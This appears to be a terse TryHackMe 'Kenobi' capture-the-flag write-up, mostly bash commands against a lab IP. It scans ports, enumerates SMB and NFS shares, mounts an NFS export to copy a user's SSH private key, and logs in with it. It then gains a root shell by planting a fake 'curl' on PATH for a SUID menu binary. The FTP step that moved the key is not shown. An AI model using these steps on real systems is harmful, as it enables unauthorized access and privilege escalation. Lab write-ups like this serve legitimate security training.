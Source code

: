 # Kenobi

## Scanning

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv --open 10.10.229.155 -oG allports
```

![12345](12345.png)

## smb

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.229.155
```

![03291548](03291548.png)

```bash
smbclient //10.10.229.155/anonymous
smbget -R smb://10.10.229.155/anonymous
```

![03291551](03291551.png)

![03291552](03291552.png)

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.229.155
```

![03291559](03291559.png)

```bash
telnet 10.10.229.155 21
```

![03291615](03291615.png)

```bash
mkdir /mnt/kenobiNFS
sudo mount 10.10.229.155:/var /mnt/kenobiNFS
cd /mnt/kenobiNFS
cd tmp
cp id_rsa ~/Documentos/TryHackMe/Kenobi/content/id_rsa
umount /mnt/kenobiNFS
```

![03291630](03291630.png)![03291632](03291632.png)

```bash
sudo ssh -i id_rsa kenobi@10.10.229.155
```

![03291639](03291639.png)

```bash
echo "/bin/bash" > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# press 1
```

![03291652](03291652.png)